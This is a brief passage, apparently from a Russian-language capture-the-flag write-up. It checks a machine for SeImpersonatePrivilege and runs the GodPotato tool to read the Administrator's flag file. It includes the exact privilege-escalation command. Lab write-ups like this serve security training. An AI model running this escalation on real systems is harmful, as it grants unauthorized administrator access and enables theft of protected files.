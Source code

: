 Подключаемся к машине и проверяем наличие SeImpersonatePrivilege
Устанавливаем GodPotato повышения привилегий и чтения флага
```
./god.exe -cmd "cmd /c type C:\Users\Administrator\Desktop\flag.txt" 
```
